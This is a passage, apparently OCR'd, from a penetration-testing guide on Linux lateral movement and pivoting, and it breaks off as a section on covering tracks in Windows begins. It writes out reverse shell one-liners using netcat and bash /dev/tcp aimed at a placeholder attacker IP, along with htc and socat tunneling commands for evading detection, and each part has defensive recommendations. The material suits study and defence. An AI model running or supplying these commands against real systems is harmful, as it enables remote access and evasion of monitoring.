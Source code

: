     nc <attacker_IP> 4444 -e /bin/bash

Reverse Shell Using Bash:

bash

        bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1

    Recommendations:
        Restrict outbound connections to trusted destinations.
        Implement application whitelisting to block unauthorized execution of networking tools like Netcat.
        Use network monitoring to detect and alert on reverse shell activity.

D. Leveraging HTTP/HTTPS Tunnels

Description: HTTP and HTTPS tunnels can be used to encapsulate attack traffic, blending in with normal web traffic to evade detection. Tools like htc (HTTP Tunnel Client) or socat can be employed.

    Common Tools and Techniques:
        htc: A tool that creates an HTTP tunnel between two hosts.
        socat: A versatile networking utility that supports various types of tunnels.

    Command Examples:

        Setting Up an HTTP Tunnel with htc:

        bash

htc --forward-port <local_port> --reverse-port <remote_port> <attacker_IP>

Using socat for HTTPS Tunneling:

bash

        socat TCP-LISTEN:<local_port>,fork SSL:<remote_IP>:<remote_port>,verify=0

    Recommendations:
        Inspect and filter HTTP/HTTPS traffic for unusual patterns.
        Use proxy servers with SSL/TLS inspection to detect and block unauthorized tunnels.
        Regularly audit firewall and proxy configurations.

Conclusion

Lateral movement and pivoting in Linux environments leverage various techniques such as SSH exploitation, abusing cron jobs, exploiting NFS shares, and setting up HTTP/HTTPS tunnels. Attackers use these methods to navigate through networks, access critical resources, and maintain persistence. Organizations must implement robust access controls, audit configurations, monitor network traffic, and apply security best practices to mitigate these threats. By understanding these techniques and deploying countermeasures, defenders can strengthen their security posture against lateral movement and pivoting attacks in Linux environments.


Section 10: Covering Tracks in Windows

Covering tracks is a critical step in the post-exploitation phase of a penetration test or malicious attack. The objective is to hide evidence of activities from detection by security systems and human defenders. In Windows environments, attackers use various techniques to remove or obscure logs, hide files, manipulate timestamps, and more. Below, we delve into the methods used for covering tracks in Windows, with detailed descriptions, tool usage, command examples, and recommendations.
Covering Tracks Techniques for Windows
A. Clearing Event Logs
